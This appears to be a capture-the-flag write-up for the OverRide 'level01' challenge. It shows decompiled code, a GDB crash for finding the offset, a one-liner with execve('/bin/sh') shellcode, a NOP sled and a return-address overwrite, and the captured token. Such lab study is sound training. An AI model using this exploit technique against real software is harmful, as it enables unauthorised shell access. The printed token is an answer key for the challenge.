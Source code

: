 # level01

1. Static analysis / Decompilation

   * The binary prompts for an admin **username** and then a **password**.
   * The username input is placed into a stack buffer of size `0x100` (256) and read from `stdin`.
   * After username handling, the program asks for a password; the subsequent handling is vulnerable and enables a classic stack **buffer overflow**.

   ### Relevant assembly excerpt (username phase)

   ```asm
   08048503  b8 df 86       MOV   EAX, s_Enter_Username_080486df    ; "Enter Username: "
   08048508  89 04 24       MOV   [ESP], EAX
   0804850b  e8 50 fe ff ff CALL  printf
   08048510  a1 20 a0 04 08 MOV   EAX, [stdin]
   08048515  89 44 24 08    MOV   [ESP+local_68], EAX
   08048519  c7 44 24 04 00 01 00 00  MOV [ESP+local_6c], 0x100
   08048521  c7 04 24 40 a0 04 08      MOV [ESP], a_user_name
   ```

   This sets up a 0x100‑byte buffer and passes it (with `stdin`) to the input routine.

   ### Decompiled / pseudo‑C (overview)

   ```c
   int main(void) {
       char username[0x100];
       puts("********* ADMIN LOGIN PROMPT *********");
       printf("Enter Username: ");
       fgets(username, 0x100, stdin);  // bounded read for username
       puts("verifying username....");
       printf("\nEnter Password: ");
       // password handling follows (vulnerable)
   }
   ```

2. Analysis of the vulnerability

   * The level contains a **stack-based buffer overflow** reachable during **password** processing. Carefully crafted input can overwrite saved stack data, including the saved return address (EIP), leading to control‑flow hijack.
   * In the original notes, a cyclic pattern causes a crash with `SIGSEGV` at an address derived from the pattern, confirming EIP control.

   #### Evidence under GDB (from notes)

   ```bash
   level01@OverRide:~$ gdb ./level01
   (gdb) r
   ********* ADMIN LOGIN PROMPT *********
   Enter Username: dat_wil
   verifying username....

   Enter Password:
   Aa0Aa1Aa2...Ad2A
   nope, incorrect password...

   Program received signal SIGSEGV, Segmentation fault.
   0x37634136 in ?? ()  # offset ~80
   ```

3. Finding the overflow offset

   * Using a cyclic pattern reveals **EIP offset ≈ 80 bytes**. After ~80 bytes of attacker‑controlled data, the next 4 bytes are interpreted as the saved return address.

4. Exploit construction

   **Strategy:**

   1. Supply a username expected by the program (e.g., `dat_wil`).
   2. Deliver shellcode with the username (stored on the stack / in process memory).
   3. On the password prompt, send a payload that overflows the vulnerable buffer, includes a **NOP sled**, and overwrites the saved return address with a pointer into the sled/shellcode region.

   **One‑liner payload components:**

   * `dat_wil` — a benign username prefix the binary recognizes.
   * Shellcode — classic x86 `execve("/bin/sh")`.
   * `\n` — terminates the username read; remaining bytes feed the password read.
   * `\x90 * 80` — NOP sled to widen the landing zone.
   * `\x47\xa0\x04\x08` — little‑endian overwrite of the saved return address (`0x0804a047`) chosen to jump into the injected region.

5. Exploitation (command used)

   ```bash
   cat <(python -c "print 'dat_wil' + '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80' + '\n' + ('\x90' * 80) + '\x47\xa0\x04\x08'") - | ./level01
   ```

   **What happens:**

   * Username phase ingests `dat_wil` + shellcode; password phase consumes the NOP sled and the crafted return address.
   * On function return, EIP lands in the sled and slides into the shellcode, spawning a shell.

6. Getting the token / proof

   After the shell pops, read the token (path depends on the challenge host):

   ```bash
   # in the spawned shell
   cat /home/users/level01/token
   ```

   token found `PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv`